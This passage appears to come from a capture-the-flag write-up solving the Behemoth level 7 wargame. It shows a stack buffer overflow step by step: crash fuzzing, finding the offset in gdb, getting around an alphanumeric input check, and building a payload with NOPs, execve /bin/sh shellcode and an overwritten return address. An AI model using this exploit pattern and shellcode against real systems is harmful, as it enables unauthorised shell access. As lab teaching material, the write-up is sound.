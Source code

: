 Nothing immediately useful. Let’s go ahead and do a test for some common vulnerabilities. Let’s go ahead and throw a large string to see if we can cause a crash.

{% highlight bash %}
behemoth7@melinda:/tmp/bh7$ /behemoth/behemoth7 `perl -e 'print "A"x600'`
Segmentation fault
{% endhighlight %}

Looks like we might be on to something. Let’s go ahead and use metasploit to figure out the exact length required to crash the application.

We end up finding out that the size is 536.

{% highlight bash %}
(gdb) run $(perl -e 'print "A"x536 . "AAAA"')
Starting program: /games/behemoth/behemoth7 $(perl -e 'print "A"x536 . "AAAA"')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
{% endhighlight %}

Now we know that it is requiring alpha numeric characters. However we can test to see if there is a limit on how much of the buffer is checked. We will try 256 and 512. Some standard buffer sizes.

{% highlight bash %}

(gdb) run $(perl -e 'print "A"x256 . "\x90" . "A"x279 . "AAAA"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /games/behemoth/behemoth7 $(perl -e 'print "A"x256 . "\x90" . "A"x279 . "AAAA"')
Non-alpha chars found in string, possible shellcode!
[Inferior 1 (process 12234) exited with code 01]
{% endhighlight %}

{% highlight bash %}
(gdb) run $(perl -e 'print "A"x512 . "\x90" . "A"x23 . "AAAA"')
Starting program: /games/behemoth/behemoth7 $(perl -e 'print "A"x512 . "\x90" . "A"x23 . "AAAA"')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()

{% endhighlight %}

Looks like there is a limit on the size. Now 512 of our total buffer size is dedicated to filling the check buffer meaning we have 24 bytes left to store our shell code and put an indicator to help us find the address. So the format for our payload is going to be.

DATA <> NOP <> SHELLCODE <> ADDRESS

Our shell code to spawn a shell is 21 bytes long leaving us 3 bytes for an identifier.

{% highlight bash %}
\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80
{% endhighlight %}

The complete payload now looks like this.

{% highlight perl %}
perl -e 'print "A"x512 . "\x90"x3 .  "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" . "AAAA"'
{% endhighlight %}
